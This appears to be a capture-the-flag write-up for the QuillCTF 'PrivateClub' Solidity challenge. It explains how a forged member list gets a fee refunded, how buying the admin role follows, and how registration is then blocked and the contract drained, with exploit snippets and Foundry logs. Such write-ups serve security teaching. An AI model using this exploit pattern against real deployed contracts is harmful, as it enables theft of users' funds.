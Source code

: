 # QuillCTF: PrivateClub Exploit

- [Challenge](https://academy.quillaudits.com/challenges/quillctf-challenges/private-club  )
- Contract: [PrivateClub](../../src/QuillCTF/PrivateClub.sol)  
- Exploit: [PrivateClubExploit](../../test/QuillCTF/PrivateClubExploit.t.sol)

The objective of the CTF was to become a member of the private club, to block future registrations and also to withdraw all Ether from the smart contract.

## Exploit

Anyone can become a member of the private club by triggering the `becomeMember()` function. It's even possible for an exploiter to craft a fake member list to avoid paying fees when registering by creating a fraudulent member list consisting solely of their own address. This way, the value sent with the transaction will be sent back to the exploiter. This vulnerability exists because the function does not verify the authenticity of the member list.

```java
// Become a member of the private club
address[] memory members = new address[](3);
members[0] = address(exploiter);
members[1] = address(exploiter);
members[2] = address(exploiter);
target.becomeMember{value: 3 ether}(members);
```

Once done, the exploiter only needs 10 Ether to become the new owner of the contract. With this level of ownership, the exploiter gains an excessive amount of power, enabling them to prevent others from registering and withdraw all of the funds.

```java
// Pay to become the new owner
target.buyAdminRole{value: 10 ether}(exploiter);
assertTrue(target.members(exploiter));
```

Now the exploiter can abuse their power and carry out any actions they desire.

```java
// Close the registration period: users won't be able to register anymore
target.setRegisterEndDate(block.timestamp - 1);

// Withdraw all the funds
target.adminWithdraw(exploiter, address(target).balance);
```

## PoC

The following are the logs generated by executing the exploit using Foundry:

```bash
$ make exploit CONTRACT=PrivateClub  
Running 1 test for test/QuillCTF/PrivateClubExploit.t.sol:PrivateClubExploit
[PASS] testExploit() (gas: 158544)
Logs:
  Balances: target=100 ETH exploiter=20 ETH
  Become a member of the private club
  Balances: target=100 ETH exploiter=20 ETH
  Pay to become the new owner
  Balances: target=110 ETH exploiter=10 ETH
  Close the registration period
  User 3 tries to become a member without any success
  Withdraw all the funds
  Balances: target=0 ETH exploiter=120 ETH

Test result: ok. 1 passed; 0 failed; finished in 1.31ms
```
